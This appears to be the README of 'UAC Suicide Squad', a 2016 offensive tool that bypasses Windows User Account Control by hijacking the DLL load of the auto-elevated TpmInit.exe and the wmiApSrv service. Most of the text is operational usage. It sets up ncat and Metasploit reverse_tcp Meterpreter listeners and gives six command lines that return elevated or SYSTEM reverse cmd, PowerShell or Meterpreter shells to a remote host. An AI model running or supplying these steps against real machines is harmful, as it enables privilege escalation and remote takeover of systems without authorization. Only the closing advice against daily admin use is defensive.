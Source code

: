
               UAC Suicide Squad v1.1
                      By Cn33liz 2016
A tool to Bypass User Account Control (UAC), to get a High Integrity (or SYSTEM) Reversed Command shell, a reversed PowerShell session, or a Reversed Meterpreter session. When TpmInit.exe starts, it first tries to load the wbemcomn.dll within C:\Windows\System32\wbem. This DLL cannot be found in that folder, so it tries to load the DLL again, but then in C:\Windows\System32. This tool exploits this DLL loading vulnerability within TpmInit.exe, which runs auto-elevated by default. Same issue also applies to the WMI Performance Adapter service (wmiApSrv) which runs with SYSTEM privileges. So while we can use TpmInit.exe to get Elevated priviliges, we can also use it to start the wmiApSrv service, and get a SYSTEM shell using our custom DLL :)

Works on:
--------------------------------------------------------------------------------------------------
This version has been succesfully tested on Windows 8.1 x64 and Windows 10 x64 (Version 1511). ====
--------------------------------------------------------------------------------------------------
----------------------------------------------------------------------------------------------------
How to use it:

* [>] Usage: First setup a remote Netcat, Ncat or Meterpreter(x64) listener
* [>] Example: KickAss@PenTestBox:~$ sudo ncat -lvp 443

* [>] Or for msf: KickAss@PenTestBox:~$ sudo msfconsole
* [>] msf > use exploit/multi/handler
* [>] msf exploit(handler) > set payload windows/x64/meterpreter/reverse_tcp
* [>] msf exploit(handler) > set LHOST 10.0.0.1
* [>] msf exploit(handler) > set LPORT 443
* [>] msf exploit(handler) > exploit -j

* [>] Then on your target: TpmInitUACBypass.exe <Remote Listener IP> <Port> <powershell, cmd or msf> <system>

* [>] Example1: Remote Elevated Cmd Shell:   TpmInitUACBypass.exe 10.0.0.1 443 cmd
* [>] Example2: Remote SYSTEM Cmd Shell:     TpmInitUACBypass.exe 10.0.0.1 443 cmd system
* [>] Example3: Remote Elevated PowerShell:  TpmInitUACBypass.exe 10.0.0.1 443 powershell
* [>] Example4: Remote SYSTEM PowerShell:    TpmInitUACBypass.exe 10.0.0.1 443 powershell system
* [>] Example5: Remote Elevated Meterpreter: TpmInitUACBypass.exe 10.0.0.1 443 msf
* [>] Example6: Remote SYSTEM Meterpreter:   TpmInitUACBypass.exe 10.0.0.1 443 msf system
-------------------------------------------------------------------------------------------------
Strong Advice

# Do not use accounts with Administrative privileges for daily computer usage!
